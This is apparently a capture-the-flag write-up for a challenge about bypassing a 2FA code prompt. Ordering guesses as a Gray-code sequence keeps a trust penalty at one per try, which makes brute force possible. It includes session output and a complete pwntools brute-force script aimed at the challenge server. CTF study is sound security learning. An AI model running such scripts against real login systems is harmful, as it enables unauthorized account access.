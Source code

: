 # Grey's Anatomy

Author: BenderBot

## Description

Can you compromise the medical records of Seattle Grace Hospital? We've obtained a set of credentials (mgrey/1515) but haven't figured out how to bypass the second factor authentication.

## Solution

tl;dr:

Use gray codes to only deduct the trust by 1 for each guess allowing for bruteforce.

---

Connecting and logging into the service requires the credintials provided in the description. Once logged in, the user will be prompted for a 3 digit code. Sending the 2 codes `123` and `124` result in a trust decrease of 3 as shown below.

```
Enter Code #1 (Trust: 1000):
123
Incorrect Code, please re-enter
Enter Code #1 (Trust: 1000):
124
Incorrect Code, please re-enter
Enter Code #1 (Trust: 997):
```

Looking into this deduction furthen it can be seen that it is the count of 1's in the binary result of `123 ^ 124` as shown belowi

```
>>> bin(123 ^ 124)
'0b111'
```

Looking for a sequence of integers where adjacent numbers only differ by one bit results in finding the "gray code" sequence. The numbers in this sequence will only appear once and will only differ by 1 bit.

```
120 => 0b1111000
121 => 0b1111001
123 => 0b1111011
122 => 0b1111010
126 => 0b1111110
127 => 0b1111111
125 => 0b1111101
124 => 0b1111100
116 => 0b1110100
```

submitting this sequence in order will result in the trust only decreasing by 1.

```
Enter Code #1 (Trust: 1000):
120
Incorrect Code, please re-enter
Enter Code #1 (Trust: 1000):
121
Incorrect Code, please re-enter
Enter Code #1 (Trust: 999):
123
Incorrect Code, please re-enter
Enter Code #1 (Trust: 998):
122
Incorrect Code, please re-enter
Enter Code #1 (Trust: 997):
126
Incorrect Code, please re-enter
Enter Code #1 (Trust: 996):
127
Incorrect Code, please re-enter
Enter Code #1 (Trust: 995):
125
Incorrect Code, please re-enter
Enter Code #1 (Trust: 994):
124
Incorrect Code, please re-enter
Enter Code #1 (Trust: 993):
116
Incorrect Code, please re-enter
Enter Code #1 (Trust: 992):
```

Scripting this process allows for a successful bruteforce.

```
[+] Opening connection to 0.cloud.chals.io on port 11444: Done
[*] Success: Code #1 found
[*] Success: Code #2 found
[*] Success: Code #3 found
[*] Success: Code #4 found
[*] Success: Code #5 found
[*] Success: Code #6 found
[*] Success: Code #7 found
[*] Success: Code #8 found
[*] Success: Code #9 found
[*] Success: Code #10 found
[*] Success: Code #11 found
[*] Success: Code #12 found
[*] Success: Code #13 found
[*] Success: Code #14 found
[*] Success: Code #15 found
[*] Switching to interactive mode
You have successfully authenticated!
FLAG: uscg{Gr4y_c0d3S}

[*] Got EOF while reading in interactive
```

---

```python
from pwn import *

p = remote('0.cloud.chals.io',11444)

def login():
    p.recvuntil(b'Username: ')
    p.sendline(b'mgrey')
    p.recvuntil(b'Password: ')
    p.sendline(b'1515')

def generate_codes():
    codes = []

    for i in range(1024):
        code = (i ^ (i >> 1))

        if code < 1000:
            codes.append(str(code).zfill(3).encode('utf-8'))
    
    return codes

def brute_code(codes):
    for code in codes:
        p.recvuntil(b'): \n')
        p.sendline(code)
        r = p.recvline()

        if b'Incorrect' not in r:
            return

def main():
    codes = generate_codes()
    login()

    passes = 0
    while passes < 15:
        brute_code(codes)
        passes += 1

        log.info(f"Success: Code #{passes} found")
    
    p.interactive()

main()
```
